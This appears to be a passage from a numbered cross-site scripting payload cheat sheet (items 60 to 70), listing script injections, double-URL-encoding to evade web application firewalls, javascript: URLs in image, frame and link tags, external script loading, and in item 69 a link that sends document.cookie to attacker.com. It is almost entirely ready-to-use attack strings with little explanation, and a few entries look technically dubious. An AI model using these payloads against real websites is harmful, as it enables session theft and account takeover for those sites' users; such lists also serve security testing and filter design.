 ```html
<script>(function(){alert(1)})();</script>
<script>(()=>alert(1))()</script>
<script>((()=>alert(1)))()</script>
```

**60. Double URL-Encoded JavaScript Payloads**
```html
%253Cscript%253Ealert('XSS')%253C%252Fscript%253E  // Double encoding to bypass WAFs
```

**61. Fragment Identifier Injection**
```html
<a href="http://example.com/#<script>alert(1)</script>">Click Me</a>  // Injecting JavaScript through fragments
```

**62. Hash Character (#) to Bypass Filters**
```html
<script#>alert(1)</script#>  // Bypass some HTML parsers
```

**63. JavaScript Event in Anchor Tag Attribute**
```html
<a href="#" onclick="javascript:alert('XSS')">Click</a>
```

**64. Image src Attribute Using JavaScript URL Scheme**
```html
<img src="javascript:alert('XSS')">
```

**65. Malformed Tags with Missing Closure**
```html
<script>alert('XSS')
```

**66. Exploiting Frame Attributes**
```html
<iframe src="javascript:alert('XSS')"></iframe>
```

**67. Inline JavaScript Execution with JSFiddle URL**
```html
<script src="https://jsfiddle.net/user/external.js"></script>  // External script load
```

**68. JavaScript Execution Through HTML-Encoded Breaks**
```html
<script>alert('line1')\u000Aalert('line2')</script>
```

**69. XSS Injection in JavaScript URL Redirect**
```html
<a href="javascript:document.location='http://attacker.com/?cookie='+document.cookie">Redirect</a>
```

**70. Using JavaScript Constructors for Execution**
```html
<script>alert.constructor('alert(1)')()</script>
```
